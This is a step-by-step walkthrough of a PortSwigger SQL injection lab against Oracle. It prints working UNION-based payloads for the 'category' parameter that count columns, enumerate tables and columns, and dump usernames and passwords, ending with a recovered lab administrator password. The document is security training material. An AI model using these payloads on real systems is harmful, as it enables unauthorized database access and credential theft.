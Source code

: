 ## Welcome, my friend. Today we will start the [7. SQLLI lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/34f822cf-0c91-432e-912b-061a752993f9)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/42e6ca66-1442-4886-a50e-729eafe615a8)


### We discover this page and find category paramater   ```/filter?category=``` :
![image](https://github.com/user-attachments/assets/53f6a62a-8140-461a-823a-13e15cc0e53f)

### Let's test and inject this param:

```
filter?category=' UNION SELECT NULL FROM dual--
```
![image](https://github.com/user-attachments/assets/b32b6c44-bd80-4e6c-9274-250765911f5c)


### Ok, no there one value , Let's go guess 2 value:

```
filter?category=' UNION SELECT NULL,NULL FROM dual--
```

![image](https://github.com/user-attachments/assets/b6928402-c2d8-43c7-b475-11de3324313c)

### Wow, We discover this page and find category paramater   ```/filter?category=``` Is vulnerablity and inject this payload for gathering all tables:

```
filter?category=' UNION SELECT NULL,table_name+FROM+all_tables--
```

![image](https://github.com/user-attachments/assets/4db967d6-49b4-4e50-b0d1-b6b832df1f90)

### We find important table ```USERS_PHTGGH```:

![image](https://github.com/user-attachments/assets/550a1620-7636-42b4-a14e-57c15a0bc965)

### Now, We will discover columns in this table through this payload:

```
filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PHTGGH'--
```

![image](https://github.com/user-attachments/assets/ac662f43-622c-4cb6-964f-bbd5232ee161)

#### Now dump all columns in this table throught this payload:

```
filter?category=' UNION SELECT USERNAME_SIAUBV,PASSWORD_IAOZXP FROM USERS_PHTGGH--
```

![image](https://github.com/user-attachments/assets/eaef5f4b-f76b-4aac-ad13-89e4a540391b)

## OR

```
filter?category=' UNION SELECT NULL,USERNAME_SIAUBV||':'||PASSWORD_IAOZXP FROM USERS_PHTGGH--
```

![image](https://github.com/user-attachments/assets/f60b90b2-d578-4944-bd6b-abcaa37057e6)


### WOW! We got on ```administrator account``` Let's login:

```
administrator:g07noytb72s5samwagu6
```


![image](https://github.com/user-attachments/assets/bbd8ee3f-6cb7-423f-887c-13243429ea19)



### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>

